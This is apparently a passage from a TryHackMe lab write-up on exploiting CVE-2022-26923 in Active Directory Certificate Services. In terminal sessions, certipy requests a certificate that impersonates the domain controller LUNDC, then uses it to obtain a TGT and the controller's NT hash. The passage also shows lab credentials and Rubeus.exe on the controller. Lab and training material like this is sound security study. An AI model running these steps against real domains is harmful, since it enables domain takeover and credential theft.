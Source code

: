 ```
-   `UserPrincipalName`: The user principal name (UPN) of the computer object.

Based on the output, it appears that the `dnshostname` property is set to `LUNDC.lunar.eruca.com`, which is the fully qualified domain name (FQDN) of the domain controller that the computer is registered with. The `serviceprincipalname` property is not included in the output, which may indicate that no SPNs are currently set for the computer object.

(certipy) root@ip-10-10-15-15:~# certipy req 'lunar.eruca.com/THMPC$:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template Machine
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 24
[*] Got certificate with DNS Host Name 'LUNDC.lunar.eruca.com'
[*] Saved certificate and private key to 'lundc.pfx'
(certipy) root@ip-10-10-15-15:~# certipy auth -pfx lundc.pfx
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: lundc$@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'lundc.ccache'
[*] Trying to retrieve NT hash for 'lundc$'
[*] Got NT hash for 'lundc$@lunar.eruca.com': 14fc9b5814def64289bb694f6659c733

It works!!

┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
└─$ certipy-ad req -u 'THMPC$@lunar.eruca.com' -p Password1@ -ca LUNAR-LUNDC-CA -template Machine
Certipy v4.3.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 25
[*] Got certificate with DNS Host Name 'LUNDC.lunar.eruca.com'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'lundc.pfx'
                                                                                  
┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
└─$ certipy-ad auth -pfx lundc.pfx
Certipy v4.3.0 - by Oliver Lyak (ly4k)

[*] Using principal: lundc$@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'lundc.ccache'
[*] Trying to retrieve NT hash for 'lundc$'
[*] Got hash for 'lundc$@lunar.eruca.com': aad3b435b51404eeaad3b435b51404ee:14fc9b5814def64289bb694f6659c733

lunar\thm@LUNDC C:\Users\thm>cd C:\THMTools 

lunar\thm@LUNDC C:\THMTools>dir 
 Volume in drive C is Windows 
 Volume Serial Number is 1634-22A9

 Directory of C:\THMTools

01/20/2022  03:35 PM    <DIR>          .
01/20/2022  03:35 PM    <DIR>          ..
10/22/2021  11:01 AM           417,280 Rubeus.exe
               1 File(s)        417,280 bytes
```